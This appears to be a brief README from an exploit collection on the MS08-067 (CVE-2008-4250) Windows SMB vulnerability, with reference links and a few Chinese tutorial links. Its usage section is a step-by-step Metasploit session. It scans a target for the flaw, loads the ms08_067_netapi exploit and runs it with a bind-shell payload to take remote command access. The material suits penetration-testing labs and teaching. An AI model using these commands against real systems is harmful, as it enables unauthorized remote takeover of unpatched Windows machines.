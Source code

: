 # MS08-067
MS08-067  

Vulnerability reference:
 * [MS08-067](https://technet.microsoft.com/library/security/ms08-067)
 * [CVE-2008-4250](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250)
 
## Usage

```
msf > db_status
msf > db_nmap -sS -sV -O --script=smb-check-vulns.nse -n 192.168.229.137
msf > search ms08_067
msf > use exploit/windows/smb/ms08_067_netapi
msf  exploit(ms08_067_netapi) > set RHOST 192.168.229.137
msf  exploit(ms08_067_netapi) > set payload windows/shell_bind_tcp
msf  exploit(ms08_067_netapi) > exploit
```

## References
+ [ms08-067漏洞 远程溢出入侵测试](http://blog.csdn.net/sysprogram/article/details/8016776)
+ [kali攻击漏洞MS08_067](http://jingyan.baidu.com/article/9f63fb918dcadfc8400f0e28.html)




